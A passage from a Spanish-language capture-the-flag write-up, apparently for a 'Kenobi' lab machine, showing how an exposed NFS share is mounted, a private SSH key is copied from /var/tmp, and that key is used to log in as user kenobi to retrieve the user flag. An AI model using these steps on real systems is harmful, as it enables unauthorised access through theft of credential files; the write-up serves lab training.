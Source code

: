 ¡Ya tenemos un montaje de red en nuestra máquina implementada! Podemos ir a /var/tmp, obtener la clave privada y luego iniciar sesión en la cuenta de Kenobi.

![](IMG/Pasted%20image%2020250407012123.png)

## c) ¿Cuál es la bandera de usuario de Kenobi (/home/kenobi/user.txt)?

Montamos el directorio /var/tmp a nuestra máquina, usando:

```
sudo su
mkdir /mnt/kenobiNFS
mount 10.10.189.6:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

![](IMG/Pasted%20image%2020250407012418.png)

Ahora, como en el ejemplo, obtendremos la clave privada e iniciaremos sesión con el usuario kenobi. Usamos:

```
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.189.6
```
